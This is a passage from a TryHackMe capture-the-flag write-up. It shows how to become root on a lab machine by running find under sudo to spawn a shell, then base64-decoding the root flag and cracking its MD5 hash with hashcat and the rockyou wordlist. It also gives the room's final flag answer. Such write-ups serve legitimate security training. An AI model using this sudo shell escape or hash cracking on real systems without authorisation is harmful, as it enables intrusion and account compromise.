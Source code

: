 Research on [GTFOBins](https://gtfobins.github.io/gtfobins/find/) and you will find the command to exploit the `find` service within `sudo` to become the `root` user

```tsx
jboss@thm-java-deserial:~$ sudo find . -exec /bin/sh \; -quit
# id
uid=0(root) gid=0(root) groups=0(root)
```

Navigate to `/root` directory and get the flag inside `root.txt`

```tsx
# cat root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

Use `bas64` to decode the string

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger/jboss]
└─$ echo "QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==" | base64 -d
BC77AC072EE30E3760806864E234C7CF
```

Copy the result string to [CrackStation](https://www.notion.so/Network-7a306564d6074937b4ea8098c0f4979f?pvs=21) to crack the hash or you can paste it into another file and use `hashcat` instead.

```tsx
┌──(kali㉿kali)-[~/TryHackMe/tonythetiger]
└─$ hashcat -m 0 root.txt ~/Downloads/rockyou.txt               
hashcat (v6.2.6) starting
[REDACTED]
Dictionary cache hit:
* Filename..: /home/kali/Downloads/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

bc77ac072ee30e3760806864e234c7cf:zxcvbnm123456789         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: bc77ac072ee30e3760806864e234c7cf
[REDACTED]
```

The final flag to submit is on this line

```
bc77ac072ee30e3760806864e234c7cf:zxcvbnm123456789
```
